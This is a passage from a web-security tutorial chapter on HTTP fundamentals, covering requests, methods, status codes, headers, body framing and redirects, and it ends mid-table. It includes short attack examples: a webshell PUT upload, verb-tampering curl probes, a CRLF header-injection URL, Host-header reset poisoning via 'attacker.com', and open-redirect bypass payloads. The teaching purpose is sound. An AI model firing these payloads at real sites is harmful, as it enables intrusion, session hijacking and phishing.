








This is Chapter 2 of the Web Fundamentals series — Notebook 6. Chapter 1 followed a single
request end to end and named every hop between the keystroke and the pixels. This chapter
zooms in on the one protocol that rides across almost all of those hops: **HTTP**. Everything
a web application says to a browser, everything a browser says back, everything a reverse
proxy and a CDN inspect to decide where to route and what to cache — all of it is HTTP text
(or, in HTTP/2 and HTTP/3, a binary framing of the same semantics).

If you cannot read a raw HTTP request and say what every line means, you cannot find the bugs
that live in the gaps between two components' interpretations of it. A request-smuggling bug
is two servers disagreeing about which header decides the body length. A cache-poisoning bug
is a cache and an origin disagreeing about which headers identify a response. A session-fixation
bug is an application trusting a cookie it should have regenerated. Every one of these is a
misreading of the bytes we are about to study. So we read the bytes — slowly, completely, with
real tools — before we touch a payload.

---

## Part 1: What HTTP Actually Is — A Text Protocol Over a Reliable Pipe

HTTP — HyperText Transfer Protocol — is a **request/response, stateless, application-layer
protocol**. Strip away the jargon and it is astonishingly simple: the client opens a connection
to a server, sends a block of text that begins with a verb and a path, and the server sends
back a block of text that begins with a status code. That is the whole protocol. Everything
else — cookies, caching, authentication, compression — is layered on top using **headers**,
which are just `Name: Value` lines.

Three properties matter from the start:

- **Text-based (through HTTP/1.1).** An HTTP/1.1 request is human-readable ASCII. You can type
  one by hand into a raw TCP socket and get a real answer back. HTTP/2 and HTTP/3 change the
  *framing* to binary for efficiency, but the *semantics* — verbs, paths, headers, status
  codes — are identical. Learn HTTP/1.1 as text first; the binary versions are the same ideas
  in a different envelope.
- **Stateless.** The protocol itself remembers nothing between requests. The server does not
  inherently know that request #2 came from the same person as request #1. Every scrap of
  "who are you" has to be re-sent on every request. This single fact is why cookies, sessions
  and tokens exist — they are the bolt-on that fakes statefulness over a stateless protocol,
  and they are where a huge fraction of web bugs live (covered in depth in Chapter 3).
- **Runs over a reliable transport.** HTTP/1.1 and HTTP/2 run over TCP (usually wrapped in
  TLS, making it HTTPS). HTTP/3 runs over QUIC, which itself runs over UDP but re-implements
  reliability. HTTP assumes the bytes it sends arrive in order and intact; the transport layer
  guarantees that.

**The mental model:** a browser is a machine that turns your clicks into HTTP requests and
turns HTTP responses back into pixels. A web server is a machine that turns HTTP requests into
HTTP responses. A pentester is a person who writes HTTP requests the browser never would.



### Seeing a raw request with your own eyes

Before any theory, look at the real thing. `curl -v` prints the exact bytes it sends (`>`) and
receives (`<`):

```bash
curl -v https://example.com/ 2>&1 | head -n 30
```

```
*   Trying 93.184.216.34:443...
* Connected to example.com (93.184.216.34) port 443
* using HTTP/2
> GET / HTTP/2
> Host: example.com
> user-agent: curl/8.5.0
> accept: */*
>
< HTTP/2 200
< content-type: text/html; charset=UTF-8
< date: Mon, 01 Jan 2024 00:00:00 GMT
< server: ECS (dcb/7EA3)
< content-length: 1256
<
<!doctype html>
<html>
...
```

Every line above the blank line is a header. The blank line (`\r\n\r\n`) separates headers from
body. That blank line is one of the most important structural facts in all of web security —
half of request smuggling is about making two servers disagree about where it is.

To see genuine HTTP/1.1 text (not HTTP/2's binary framing), talk to a plain-HTTP port with
`nc` (netcat) and type the request yourself:

```bash
printf 'GET / HTTP/1.1\r\nHost: example.com\r\nConnection: close\r\n\r\n' | nc example.com 80
```

That `printf` sends exactly: a request line, two header lines, and the terminating blank line.
`\r\n` is a carriage-return + line-feed — HTTP mandates CRLF line endings, not bare `\n`. This
detail bites people constantly: a server that is strict about CRLF will reject a request that
uses bare newlines, and a server that is *lax* about it is often exploitable.

---

## Part 2: The Request — Anatomy of the Bytes a Client Sends

An HTTP/1.1 request has four parts, in this exact order:

1. **Request line** — `METHOD SP request-target SP HTTP-version CRLF`
2. **Header fields** — zero or more `field-name: field-value CRLF` lines
3. **Empty line** — a bare `CRLF` that ends the header section
4. **Message body** — optional; present for `POST`, `PUT`, `PATCH`, etc.

Here is a fully annotated `POST`:

```
POST /api/login HTTP/1.1                 ← request line: method, target, version
Host: shop.example.com                   ← which virtual host (mandatory in HTTP/1.1)
User-Agent: Mozilla/5.0 (X11; Linux)     ← who is asking
Accept: application/json                 ← what representations the client will take
Content-Type: application/json           ← what the body is
Content-Length: 44                       ← how many bytes the body is
Cookie: session=abc123                   ← state carried from a previous response
Connection: keep-alive                   ← keep the TCP connection open for reuse
                                         ← EMPTY LINE (CRLF) ends the headers
{"username":"admin","password":"hunter2"}   ← body: exactly 44 bytes
```

### The request target — four forms, and why security cares

The middle token of the request line is the **request-target**, and it is not always just a
path. RFC 9112 defines four forms:

| Form | Example | Used when |
|------|---------|-----------|
| origin-form | `GET /cart?id=42 HTTP/1.1` | Normal requests to a server |
| absolute-form | `GET http://a.com/cart HTTP/1.1` | Requests **to a proxy** |
| authority-form | `CONNECT a.com:443 HTTP/1.1` | `CONNECT` tunnels (HTTPS via proxy) |
| asterisk-form | `OPTIONS * HTTP/1.1` | Server-wide `OPTIONS` |

**Security relevance:** many servers accept absolute-form even when they are not proxies. If a
back-end trusts the path from absolute-form but a front-end routed on the `Host` header, the
two can be pointed at different places — this is a classic routing-based access-control bypass
and a building block of some SSRF and request-smuggling chains. Always test whether a target
accepts `GET http://internal-host/ HTTP/1.1` where the `Host` header says something else.

### The Host header — the single most security-relevant header in HTTP/1.1

In HTTP/1.1 the `Host` header is **mandatory** — a compliant server must reject a request that
lacks it with `400 Bad Request`. It exists because one IP address and one TCP port routinely
serve hundreds of different websites (**virtual hosting**); the `Host` header is how the server
knows *which* site you actually want.

Because so much infrastructure trusts `Host` to build absolute URLs (password-reset links,
cache keys, redirects), tampering with it is a whole vulnerability family:

- **Host-header injection → poisoned password reset.** If the app builds a reset link as
  `https://{Host}/reset?token=...` and emails it, an attacker who sets
  `Host: attacker.com` can make the victim's reset token land on their own server.
- **Web cache poisoning** via `Host` or `X-Forwarded-Host` when those values reflect into the
  cached response.
- **SSRF / routing bypass** when a front-end and back-end disagree on which host wins.

We will return to each; for now, internalize that `Host` is attacker-controlled input like any
other, never a trusted fact.



---

## Part 3: The Methods (Verbs) — What Each One Promises

The method (or **verb**) is the first token of the request line. It declares *intent*. The HTTP
specification attaches two crucial properties to methods that drive both correct app design and
attacker reasoning:

- **Safe** — the method is not supposed to change server state. `GET`, `HEAD`, `OPTIONS`, `TRACE`
  are safe. A `GET` that deletes a record is a design bug (and a CSRF goldmine).
- **Idempotent** — sending it N times has the same effect as sending it once. `GET`, `HEAD`,
  `PUT`, `DELETE`, `OPTIONS` are idempotent; `POST` is not; `PATCH` need not be.

| Method | Safe | Idempotent | Body | Purpose | Primary security angle |
|--------|------|-----------|------|---------|------------------------|
| `GET` | yes | yes | no* | Retrieve a representation | State-changing GETs → CSRF; params leak in logs/Referer |
| `HEAD` | yes | yes | no | Like GET but headers only | Cheap oracle for file existence / size enumeration |
| `POST` | no | no | yes | Submit data, create/process | CSRF, mass assignment, injection sinks |
| `PUT` | no | yes | yes | Create/replace at a URI | If enabled unauth → arbitrary file upload / RCE |
| `PATCH` | no | no | yes | Partial update | Mass assignment, IDOR on partial fields |
| `DELETE` | no | yes | no* | Remove a resource | Broken access control → destructive IDOR |
| `OPTIONS` | yes | yes | no | Ask what methods/CORS are allowed | Enumerate methods; CORS preflight recon |
| `HEAD` | yes | yes | no | Metadata only | Timing/size side channels |
| `TRACE` | yes | yes | no | Echo the request back | Cross-Site Tracing (XST) — steal headers via reflection |
| `CONNECT` | no | no | no | Establish a tunnel (proxies) | Proxy abuse, SSRF pivoting |

\* GET and DELETE *may* carry a body per RFC 9110, but many servers ignore or reject it; do not
rely on it.

### GET vs POST — the distinction that matters for security

The functional difference students memorize ("GET puts data in the URL, POST in the body") is
true but shallow. The security-relevant differences:

- **GET parameters are logged and leaked.** They appear in server access logs, proxy logs,
  browser history, and — critically — in the `Referer` header sent to the *next* site the user
  visits. Never put secrets (tokens, passwords, session IDs) in a query string.
- **GET is trivially CSRF-able.** An ``
  fires a GET with the victim's cookies attached. A state-changing GET is a CSRF vulnerability
  by construction.
- **POST bodies are not automatically safer**, but they are not reflected into `Referer` and
  require a more deliberate cross-site form/`fetch`, which SameSite cookies and CSRF tokens can
  defend.

**Red team usage:** when you find `PUT` or `DELETE` enabled on a directory (test with
`OPTIONS`), try uploading a webshell with `PUT /shell.jsp` — misconfigured WebDAV and some app
servers grant instant RCE. **Blue team usage:** disable `PUT`, `DELETE`, `TRACE`, `CONNECT` at
the web-server layer unless a specific API needs them; alert on `TRACE` requests (legitimate
clients never send them).

### Method enumeration in practice

```bash
# Ask the server what it allows on a path:
curl -s -X OPTIONS https://target.example.com/api/ -i | grep -i '^allow'
```

```
Allow: GET, POST, PUT, DELETE, OPTIONS
```

That `Allow` header is a menu. If `PUT`/`DELETE` show up on paths that a normal user should not
be able to write, you have a probable broken-access-control finding to chase.

```bash
# Test method-based access-control bypass: many frameworks route GET and HEAD identically,
# and some enforce authz only on GET. Try HEAD, or an unexpected verb, on a protected route:
curl -s -X HEAD  https://target/admin -i | head -1
curl -s -X FOOBAR https://target/admin -i | head -1   # non-standard verb: does it 200?
```

**HTTP verb tampering** exploits frameworks that check authorization for `GET` but fall through
for other verbs, or treat an unknown verb as `GET`. If `/admin` is 403 on `GET` but 200 on
`HEAD` or a made-up verb, the authorization filter is method-scoped and bypassable.

---

## Part 4: The Response — Status Lines and the Five Status-Code Families

The server's reply mirrors the request's structure: a **status line**, headers, empty line,
body.

```
HTTP/1.1 200 OK                          ← status line: version, code, reason phrase
Content-Type: text/html; charset=utf-8
Content-Length: 1256
Set-Cookie: session=abc123; HttpOnly     ← issue state to the client
Cache-Control: no-store
                                         ← empty line
<!doctype html>...                       ← body
```

The three-digit status code is grouped into five families by its first digit:

| Range | Family | Meaning | Codes you must know cold |
|-------|--------|---------|--------------------------|
| 1xx | Informational | Request received, continue | `100 Continue`, `101 Switching Protocols` (WebSocket upgrade) |
| 2xx | Success | Request succeeded | `200 OK`, `201 Created`, `204 No Content`, `206 Partial Content` |
| 3xx | Redirection | Further action needed | `301`/`308` permanent, `302`/`307` temporary, `304 Not Modified` |
| 4xx | Client error | The request was wrong | `400`, `401`, `403`, `404`, `405`, `429` |
| 5xx | Server error | The server failed | `500`, `502`, `503`, `504` |

### The codes that carry security meaning

- **`401 Unauthorized`** actually means *unauthenticated* — "I don't know who you are, send
  credentials." It must come with a `WWW-Authenticate` header naming the scheme.
- **`403 Forbidden`** means *authenticated but not allowed* — "I know who you are and the answer
  is no." The 401-vs-403 distinction is a live oracle during access-control testing: a `403`
  where you expected `404` tells you the resource **exists** but you can't reach it — an IDOR
  lead.
- **`404` vs `403` vs `200` as an enumeration oracle.** Differential responses leak structure.
  If `/admin` returns `403` and `/nonsense` returns `404`, the app is confirming `/admin`
  exists. Content-discovery tools (ffuf, feroxbuster) are built entirely on classifying these
  differences.
- **`405 Method Not Allowed`** confirms a path exists but rejects your verb — pair it with the
  `Allow` header for the real menu.
- **`429 Too Many Requests`** is the rate-limiter talking. Its presence, threshold, and the
  `Retry-After` header shape every brute-force and credential-stuffing decision.
- **`500` with a stack trace** is an information-disclosure jackpot: framework versions, file
  paths, SQL fragments, and injection confirmation all leak through verbose 500s.

**Bug-bounty note:** disagreements between status codes across a proxy are a smuggling/desync
signal. If the same request yields `200` directly to the origin but `404` through the CDN (or
vice-versa), the two are parsing it differently — worth a deeper desync probe on PortSwigger's
Web Security Academy request-smuggling labs.



---

## Part 5: Headers — The Taxonomy That Runs the Web

Headers are `Name: Value` metadata lines. Names are case-insensitive (`Content-Type` ==
`content-type`; HTTP/2 lowercases them). Values are largely free-form ASCII. There are
hundreds of standard headers plus unlimited custom ones (historically `X-` prefixed). Rather
than memorize a list, organize them by **who sends them and what they control**.

### Request headers (client → server)

| Header | What it does | Security angle |
|--------|--------------|----------------|
| `Host` | Selects the virtual host | Host-header injection, cache poisoning, SSRF |
| `User-Agent` | Identifies the client | Injection sink if logged/reflected; UA-based WAF bypass |
| `Accept` / `Accept-Language` / `Accept-Encoding` | Content negotiation | Can key caches; `Accept-Language` can be an injection vector |
| `Cookie` | Carries state back to server | Session theft, fixation, injection |
| `Authorization` | Credentials (Basic/Bearer/Digest) | Token leakage, JWT attacks (Chapter later) |
| `Referer` | The page that linked here | Leaks URLs+tokens cross-site; trust-boundary mistakes |
| `Origin` | The origin of a cross-site request | Core of CORS and CSRF defenses |
| `Content-Type` | Format of the request body | Parser confusion, mass assignment, SSRF via XML/JSON |
| `Content-Length` / `Transfer-Encoding` | Body length framing | **Request smuggling** lives here |
| `X-Forwarded-For` / `X-Forwarded-Host` / `X-Forwarded-Proto` | Proxy-added client info | Spoofable → IP allowlist bypass, cache poisoning |

### Response headers (server → client)

| Header | What it does | Security angle |
|--------|--------------|----------------|
| `Content-Type` | Format of the body | Missing/wrong → MIME sniffing → XSS |
| `Set-Cookie` | Issues state to the client | Flags decide session safety (Part 8) |
| `Location` | Redirect target | Open redirect if attacker-controlled |
| `Cache-Control` / `Expires` / `ETag` / `Vary` | Caching behavior | Cache poisoning & deception |
| `Content-Security-Policy` | Restricts resource loading | Primary XSS mitigation |
| `Strict-Transport-Security` | Force HTTPS | Prevents SSL-strip downgrade |
| `X-Frame-Options` / `frame-ancestors` | Framing control | Clickjacking defense |
| `X-Content-Type-Options: nosniff` | Disable MIME sniffing | Blocks sniffing-based XSS |
| `Access-Control-Allow-Origin` | CORS grant | Misconfig → cross-origin data theft |

### The security-header baseline every response should carry

```
Strict-Transport-Security: max-age=63072000; includeSubDomains; preload
Content-Security-Policy: default-src 'self'; object-src 'none'; frame-ancestors 'none'
X-Content-Type-Options: nosniff
X-Frame-Options: DENY
Referrer-Policy: strict-origin-when-cross-origin
Permissions-Policy: geolocation=(), camera=(), microphone=()
Cache-Control: no-store        (on any authenticated / sensitive response)
```

**Blue team usage:** an automated header audit (below) belongs in CI. **Bug-bounty note:**
missing headers are usually low/informational on their own — chain them (missing `X-Frame-Options`
+ a sensitive state-changing action = clickjacking with impact) to earn a payout.

```bash
# Quick header posture check with curl (-I = HEAD, -s silent, -S show errors):
curl -sSI https://target.example.com/ | \
  grep -iE 'strict-transport|content-security|x-frame|x-content-type|referrer-policy|set-cookie'
```

### Header injection (CRLF injection) — where headers become the wound

If user input flows into a **response header** without stripping `\r\n`, an attacker can inject
a `CRLF` and forge new headers or split the response entirely:

```
# Vulnerable redirect that reflects a 'next' param into Location:
GET /redirect?next=/dashboard%0d%0aSet-Cookie:%20session=attacker HTTP/1.1
```

If the server emits `Location: /dashboard\r\nSet-Cookie: session=attacker`, the attacker just
set a cookie via a crafted URL — **response splitting**. Modern servers reject raw CR/LF in
header values, but application code that builds headers by string concatenation still reintroduces
the bug. **Defense:** never concatenate untrusted data into headers; use framework APIs that
encode or reject control characters.

---

## Part 6: Content Negotiation, Encoding and the Body

The client and server negotiate *how* the resource is represented using the `Accept*` request
headers and the `Content-*` response headers.

- `Accept: text/html, application/json;q=0.9` — "I prefer HTML, JSON is acceptable." The `q`
  value (quality, 0–1) ranks preferences.
- `Accept-Encoding: gzip, br` — "I can decompress gzip or Brotli." The server replies with
  `Content-Encoding: gzip` and a compressed body.
- `Accept-Language: en-US, fr;q=0.7` — drives localization; also a subtle cache key and an
  occasional injection sink.

### Content-Type and the charset — why `; charset=utf-8` matters for XSS

A response of `Content-Type: text/html` with reflected input is an XSS sink. The same bytes with
`Content-Type: application/json` or `text/plain` are (usually) inert because the browser will
not parse them as HTML — **unless** the response lacks `X-Content-Type-Options: nosniff`, in
which case the browser may **MIME-sniff** the content, decide it "looks like HTML," and execute
it anyway. This is precisely why `nosniff` exists.

The charset parameter also matters: serving user-controlled bytes as an unusual charset
(`ISO-2022-JP`, UTF-7 historically) enabled encoding-based filter bypasses. Always pin
`; charset=utf-8`.

### How the body length is determined — the root of request smuggling

A server reading a request/response body has to know where the body ends. HTTP/1.1 gives two
mechanisms, and they must never both be authoritative at once:

1. **`Content-Length: N`** — the body is exactly N bytes.
2. **`Transfer-Encoding: chunked`** — the body is sent in size-prefixed chunks, ending with a
   `0`-sized chunk. Example chunked body:

```
7\r\n
Mozilla\r\n
9\r\n
Developer\r\n
0\r\n
\r\n
```

The spec is explicit: **if both `Content-Length` and `Transfer-Encoding` are present, `Transfer-
Encoding` wins and `Content-Length` must be ignored/rejected.** When a front-end proxy honors
one and the back-end honors the other, they disagree about where request A ends and request B
begins — an attacker smuggles the front of request B into the back of request A. That is
**HTTP request smuggling (CL.TE / TE.CL desync)**, one of the highest-impact web bugs, and it
is *entirely* a body-framing disagreement. We only introduce it here; the dedicated smuggling
chapter weaponizes it.



---

## Part 7: Redirects — 3xx, the Location Header and Open Redirect

A redirect is the server saying "what you want lives at a different URL." It is a `3xx` status
plus a `Location` header naming the new URL. The browser (or curl with `-L`) follows it.

| Code | Name | Method preserved on follow? | Caches? | Typical use |
|------|------|------------------------------|---------|-------------|
| `301` | Moved Permanently | May change POST→GET | Yes | Permanent URL change (SEO) |
| `302` | Found | Historically changes POST→GET | No | Generic temporary redirect |
| `303` | See Other | Forces GET | No | Post/Redirect/Get after form submit |
| `307` | Temporary Redirect | **Preserves** method + body | No | Temp redirect keeping POST |
| `308` | Permanent Redirect | **Preserves** method + body | Yes | Permanent redirect keeping POST |

The 302-vs-307 distinction matters when a POST is redirected: `302` typically drops your body
and re-issues a GET; `307` replays the POST verbatim to the new `Location`. Attackers use `307`
redirects to *bounce a POST with its body* to a third party in some SSRF and CSRF chains.

### Open redirect — small bug, big multiplier

If the redirect target comes from user input without validation, you have an **open redirect**:

```
GET /login?returnUrl=https://evil.example/phish HTTP/1.1
→ HTTP/1.1 302 Found
  Location: https://evil.example/phish
```

On its own an open redirect is often rated low, but it is a **force multiplier**:

- **Phishing** — the link genuinely starts on the trusted domain, then bounces to the attacker.
- **OAuth token theft** — an open redirect on a registered `redirect_uri` host can leak
  `code`/`token` to the attacker (a real, high-severity pattern).
- **SSRF / filter bypass** — server-side fetchers that follow redirects can be walked from an
  allowed host to an internal one.
- **CSP / allowlist bypass** — bounce through a trusted, allow-listed domain.

**Filter-bypass payload matrix** (why naive `startswith("https://trusted")` checks fail):

| Payload | Why it bypasses |
|---------|-----------------|
| `https://trusted.com.evil.com` | `trusted.com` is only a subdomain label of `evil.com` |
| `https://trusted.com@evil.com` | userinfo — browser goes to `evil.com` |
| `//evil.com` | scheme-relative — inherits current scheme, host becomes evil |
